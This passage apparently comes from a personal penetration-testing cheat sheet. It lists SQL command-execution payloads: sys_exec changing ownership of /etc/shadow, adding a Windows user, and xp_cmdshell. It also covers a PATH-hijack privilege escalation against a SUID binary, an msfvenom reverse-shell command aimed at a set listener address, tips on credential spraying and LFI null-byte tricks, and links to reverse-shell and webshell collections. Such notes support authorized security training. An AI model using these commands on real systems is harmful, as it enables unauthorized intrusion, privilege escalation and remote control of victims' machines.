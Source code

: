 ````
sys_exec('chown john.john /etc/shadow')
SELECT sys_exec("net users lecon lecon /add");
MSSQL:
EXEC xp_cmdshell 'dir *.exe';
GO
```

# PATH Manipulation

#### Custom code running other binaries - PATH manipulation:
If you are running a SUID which executes a shared binary (e.g., ```cat```), we can manipulate the PATH variable to run our own file when (e.g., ```cat```) is called:

```
echo “/bin/bash” > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
./run_cat_dependantSUID
```

#### Another trick is to create a reverse shell with msfvenom and place that in the set PATH
```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.223 LPORT=555 -f elf -o shell```




# If your stuck:
#### Vector
- Enumerate more... FROM THE TOP, do NOT SKIP ANY STEPS!!
- When enumerating use more than one wordlist! (i.e., ```gobuster```); also -
did you check ```robots.txt```?
- ```page?=foo``` - TRY MORE HARDER for LFI/RFI/SQL UNION

- Creds - If you have any usernames, throw them at other services, use
```fasttrack.lst``` and the enumd username variations as password.

#### Shell
- Test basic connectivity by using raw netcat to verify connection back
- Use basic ports for egress: 80/443/25/53
- Use basic payload: windows/shell_reverse_tcp
- Speak the language the machine wants to, not what is convenient.


Interesting files to look for via LFI/Traversal (REMEMBER TO USE nullbyte ```%00``` to terminate serverside for LFI)


# Essential Reading

Pentest monkey - oneliners

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


Pentest monkey - webshells

- https://pentestmonkey.net/category/tools/web-shells

  - webshells are also included in Kali @ ```/var/usr/share/webshells```


Highon Coffee - bunch of commands ondemand

- https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#database-penetration-testing
````